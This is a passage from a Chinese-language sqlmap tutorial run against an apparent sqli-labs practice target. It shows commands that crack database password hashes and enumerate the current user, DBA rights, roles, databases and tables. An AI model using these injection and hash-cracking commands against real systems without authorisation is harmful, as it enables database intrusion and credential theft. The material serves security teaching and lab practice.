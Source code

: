 第一处询问我们是否保存密码的hash值为文件，我们不保存。第二处问我们是否使用sqlmap自带的字典进行爆破，我们选择y，可以看出把密码爆破出来了，root用户的密码也为root。如果这里爆破不出来，我们可以拿hash值去字典更强大的地方爆破

### [![img](https://p1.ssl.qhimg.com/t0163773c28f2937ed5.png)](https://p1.ssl.qhimg.com/t0163773c28f2937ed5.png)

### 查看数据库当前用户(—current-user)

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --current-user  #查看数据库当前的用户
```

### 判断当前用户是否有管理权限(—is-dba)

查看当前账户是否为数据库管理员账户

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --is-dba  #判断当前用户是否有管理员权限
```

### [![img](https://p1.ssl.qhimg.com/t0121e516c7c614fc1b.png)](https://p1.ssl.qhimg.com/t0121e516c7c614fc1b.png)

### 列出数据库管理员角色(—roles)

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --roles   #列出数据库所有管理员角色
```

### [![img](https://p1.ssl.qhimg.com/t01a095aa631969a7fc.png)](https://p1.ssl.qhimg.com/t01a095aa631969a7fc.png)

### 查看所有的数据库(—dbs)

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --dbs
```

### [![img](https://p5.ssl.qhimg.com/t0189a6637411cb3482.png)](https://p5.ssl.qhimg.com/t0189a6637411cb3482.png)

### 查看当前的数据库(—current-db)

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --current-db #查看当前的数据库
```

[![img](https://p4.ssl.qhimg.com/t0184d52d7edf6a0218.png)](https://p4.ssl.qhimg.com/t0184d52d7edf6a0218.png)

### 爆出指定数据库中的所有的表

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --tables #爆出数据库security中的所有的表
```
